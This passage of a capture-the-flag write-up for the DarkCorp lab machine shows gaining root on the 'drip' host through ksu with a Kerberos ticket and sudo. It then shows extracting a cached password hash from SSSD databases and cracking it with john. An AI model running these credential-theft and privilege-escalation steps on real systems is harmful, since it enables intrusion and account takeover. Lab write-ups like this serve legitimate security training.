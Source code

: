 ### **Phase 3: Linux Root via KSU**

**Victim Execution:**

```bash
ebelford@drip:/tmp$ KRB5CCNAME=angela.w.adm.ccache ksu angela.w.adm
Authenticated angela.w.adm@DARKCORP.HTB
Account angela.w.adm: authorization successful
Changing uid to angela.w.adm (1730401107)
angela.w.adm@drip:/tmp$ whoami
angela.w.adm
```

**Privilege Escalation:**

```bash
angela.w.adm@drip:/tmp$ sudo -l
User angela.w.adm may run: (ALL : ALL) NOPASSWD: ALL
angela.w.adm@drip:/tmp$ sudo su
root@drip:/tmp#
```

**Total Time:** **3 minutes 14 seconds**

---

### **Phase 4: SSSD Cache → TAYLOR.B.ADM Hash Extraction**

As **`root@drip`**, we targeted **SSSD cache databases** (`/var/lib/sss/db`):

```bash
root@drip:/var/lib/sss/db# ls -la
-rw------- 1 root root 1609728 Feb 26 07:33 cache_darkcorp.htb.ldb
-rw------- 1 root root 1286144 Feb 25 09:55 config.ldb
```

**Credential Mining:**

```bash
root@drip:/var/lib/sss/db# grep -airC 5 'pass' .
./cache_darkcorp.htb.ldb: ... cachedPassword j$6$5wwc6mW6nrcRD4Uu$9rigmpKLyqH/.hQ520PzqN2/6u6PZpQQ93ESam/OHvlnQKQppk6DrNjL6ruzY7WJkA2FjPgULqxlb73xNw7n5.
```

**Hash Analysis:**

```
$6$5wwc6mW6nrcRD4Uu$9rigmpKLyqH/.hQ520PzqN2/6u6PZpQQ93ESam/OHvlnQKQppk6DrNjL6ruzY7WJkA2FjPgULqxlb73xNw7n5.
Format: SHA-512 Crypt (Unix crypt(3) $6$)
Cost: 5000 iterations
Target: taylor.b.adm@darkcorp.htb
```

**Cracking:**

```bash
echo '$6$5wwc6mW6nrcRD4Uu$9rigmpKLyqH/.hQ520PzqN2/6u6PZpQQ93ESam/OHvlnQKQppk6DrNjL6ruzY7WJkA2FjPgULqxlb73xNw7n5.' > bcrypt.hash
john bcrypt.hash -w=/usr/share/rockyou.txt --format=sha512crypt-opencl
!QAZzaq1    (taylor.b.adm)
```

